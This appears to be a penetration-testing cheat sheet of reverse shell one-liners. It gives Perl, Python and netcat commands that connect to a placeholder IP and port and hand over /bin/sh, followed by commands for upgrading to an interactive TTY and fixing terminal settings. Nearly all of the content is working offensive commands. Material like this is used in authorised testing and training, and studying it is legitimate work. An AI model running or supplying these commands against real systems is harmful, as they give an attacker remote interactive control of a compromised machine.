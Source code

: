 ```
perl -e 'use Socket;$i="<IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Netcat

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

### More reverse shell

```
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```

### Interactive shell

```
# Python
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Bash
echo os.system('/bin/bash')

# Sh
/bin/bash -i

# Perl
perl -e 'exec "/bin/bash"'

# Ruby
exec "/bin/bash"

# Lua
os.execute('/bin/bash')
```

### Adjust Interactive shell

```
stty size # Find your terminal size -> 50 235
Ctrl-Z
stty raw -echo  // Disable shell echo
fg
export SHELL=bash
export TERM=xterm OR export TERM=xterm-256color
stty rows 50 columns 235
```
